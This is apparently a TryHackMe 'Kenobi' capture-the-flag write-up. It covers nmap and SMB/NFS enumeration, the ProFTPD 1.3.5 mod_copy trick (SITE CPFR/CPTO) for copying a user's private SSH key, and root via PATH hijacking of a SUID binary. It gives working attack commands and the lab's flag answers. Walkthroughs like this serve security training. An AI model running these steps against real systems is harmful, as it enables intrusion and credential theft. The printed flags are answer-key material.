

# TryHackMe [Kenobi](https://tryhackme.com/room/kenobi)
### References
* Hammond, J. (2020). TryHackMe! KENOBI - Linux Pentest: Samba Shares [YouTube Video]. In YouTube. https://youtu.be/60_g_hBVLbg
## Deploy the vulnerable machine
### Scan the machine with nmap, how many ports are open?
* `nmap` reveals that ports 21, 22, 80, 111, 445, 2049 are open:
```
$ nmap <MACHINE_IP> -vvv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 14:34 AEST
Initiating Ping Scan at 14:34
Scanning <MACHINE_IP> [2 ports]
Completed Ping Scan at 14:34, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:34
Completed Parallel DNS resolution of 1 host. at 14:34, 0.13s elapsed
Initiating Connect Scan at 14:34
Scanning <MACHINE_IP> [1000 ports]
Discovered open port 445/tcp on <MACHINE_IP>
Discovered open port 139/tcp on <MACHINE_IP>
Discovered open port 111/tcp on <MACHINE_IP>
Discovered open port 21/tcp on <MACHINE_IP>
Discovered open port 80/tcp on <MACHINE_IP>
Discovered open port 22/tcp on <MACHINE_IP>
Discovered open port 2049/tcp on <MACHINE_IP>
Completed Connect Scan at 14:34, 21.09s elapsed (1000 total ports)
Nmap scan report for <MACHINE_IP>
Host is up, received syn-ack (0.28s latency).
Scanned at 2021-04-15 14:34:05 AEST for 21s
Not shown: 993 closed ports
Reason: 993 conn-refused
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
111/tcp  open  rpcbind      syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
2049/tcp open  nfs          syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```
**Answer**: `7`
## Enumerating Samba for shares?
### Using the nmap command above, how many shares have been found?
```
$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 14:37 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\<MACHINE_IP>\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<MACHINE_IP>\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<MACHINE_IP>\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 42.16 seconds
```
**Answer**: `3`
### Once you're connected, list the files on the share. What is the file can you see?
```
$ smbclient //<MACHINE_IP>/anonymous
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\applegamer22's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 20:49:09 2019
  ..                                  D        0  Wed Sep  4 20:56:07 2019
  log.txt                             N    12237  Wed Sep  4 20:49:09 2019

                9204224 blocks of size 1024. 6877116 blocks available
```
**Answer**: `log.txt`
### What port is FTP running on?
* With `smbget -R smb://<MACHINE_IP>/anonymous`, `log.txt` is downloaded to the client:
  > \# Port 21 is the standard FTP port.
  > Port				21

**Answer**: `21`
### What mount can we see?
```
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 14:54 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
```
**Answer**: `/var`
## Gain initial access with ProFtpd
### What is the version?
```
$ nc <MACHINE_IP> 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.238.188]
```
**Answer**: `1.3.5`
### How many exploits are there for the ProFTPd running?

**Answer**: `3`
### What is Kenobi's user flag (`/home/kenobi/user.txt`)?
* 
```
 $ nc 10.10.55.138 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.55.138]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
* 
```bash
& mkdir nfs
$ mount <MACHINE_IP>:/var nfs
$ ls -la nfs
total 56
drwxr-xr-x  2 root root      4096 Sep  4  2019 backups
drwxr-xr-x  9 root root      4096 Sep  4  2019 cache
drwxrwxrwt  2 root root      4096 Sep  4  2019 crash
drwxr-xr-x 40 root root      4096 Sep  4  2019 lib
drwxrwsr-x  2 root games     4096 Apr 13  2016 local
lrwxrwxrwx  1 root root         9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root vboxusers 4096 Sep  4  2019 log
drwxrwsr-x  2 root mem       4096 Feb 27  2019 mail
drwxr-xr-x  2 root root      4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root         4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root      4096 Jan 30  2019 snap
drwxr-xr-x  5 root root      4096 Sep  4  2019 spool
drwxrwxrwt  6 root root      4096 Apr 15 14:32 tmp
drwxr-xr-x  3 root root      4096 Sep  4  2019 www
$ cp nfs/tmp/id_rsa .
$ chmod 600 id_rsa
$ ssh -i id_rsa kenobi@<MACHINE_IP>
kenobi@kenobi:~$ cat /home/kenobi/user.txt
d0b0f3f53b6caa532a83915e19224899
```
**Answer** `d0b0f3f53b6caa532a83915e19224899`
## Privilege Escalation with Path Variable Manipulation
### What file looks particularly out of the ordinary?
```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
### Run the binary, how many options appear?
```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
**Answer**: `3`
### What is the root flag (/root/root.txt)?
```bash
kenobi@kenobi:~$ export PATH=$HOME:$PATH
kenobi@kenobi:~$ echo "/bin/bash -p" > curl
kenobi@kenobi:~$ chmod +x curl
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```
**Answer**: `177b3cd8562289f37382721c28381f02`